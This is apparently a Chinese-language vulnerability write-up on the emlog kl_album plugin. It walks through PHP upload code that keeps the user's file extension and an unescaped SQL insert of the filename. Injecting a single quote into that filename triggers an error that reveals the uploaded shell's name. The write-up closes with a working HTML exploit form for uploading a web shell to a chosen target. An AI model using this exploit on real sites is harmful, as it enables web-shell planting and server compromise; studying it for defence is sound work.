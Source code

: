 ```
    }
    $attach = substr($attach, 6, strlen($attach));
    return     $attach;
} 
```

从上面的代码中我们发现，对于之前传入的$_type 这个变量在这个函数里根本就没有起到任何左右，函数中定义的$imtype = array('jpg','png','jpeg','gif');，也不是用来验证后缀的，而是判断是否需要生成缩略图的，所以重点就是下面的内容了：

```
$extension  = strtolower(substr(strrchr($filename, "."),1));
$uppath = KL_UPLOADFILE_PATH . date("Ym") . "/";
$fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;
$attachpath = $uppath . $fname;
...
...
...
if(@!move_uploaded_file($tmpfile ,$attachpath)){ 
```

这里我们可以发现上传的文件名是：

```
$fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension; 
```

这里的意思是将原来的文件名的 md5 值+当前时间+rand 随机数+后缀，md5 值和时间基本上比较好确定，但是这个 rand（）随机数一般都是 0-65535 之间，非常麻烦。

同时我们可以看到下面的代码，并没有把问卷名输出的地方，只是 echo 'kl_album_successed';。难道，我们需要暴力破解 shell 名字？

我们返回 kl_album_ajax_do.php，可以发现上传的 if 语句中有如下代码：

```
$result = $DB->query("INSERT INTO ".DB_PREFIX."kl_album(truename, filename, description, album, addtime, w, h) VALUES('{$_FILES['Filedata']['name']}', '{$upfname}', '".date('Y-m-d', time())."', {$album}, ".time().", {$photo_size['w']}, {$photo_size['h']})"); 
```

这里将$_FILES['Filedata']['name']直接插入数据库。这里另造成了一个 SQL 注入漏洞，当然既然有之前的 getshell，这里的注入就有点当陪衬了。不过 emlog 在遇到 SQL 语句出错的情况下是会报错的。 所以所以，这里我们正好用到这个特性，通过报错可以将$upfname 这个字段爆出来，这也就是我们上传成功的 shell 名字。 如何报错？上传文件名里加个单引号即可。

### 漏洞复现

```
<form id="exp" method="post" enctype="multipart/form-data">
<p>target url > <input id="url" type="text" style="width: 300px"></p>
<p>shell file > <input type="file" name="Filedata"></p>
<input name="album" type="hidden" value="111111" >
<p><input type="submit" value="GO!" οnclick="exp.action=url.value+'/content/plugins/kl_album/kl_album_ajax_do.php';"></p>
</form> 
```

保存为 html，本地打开：

![image](img/4d56324916cf9679975f8e41ecf39c9c.png)
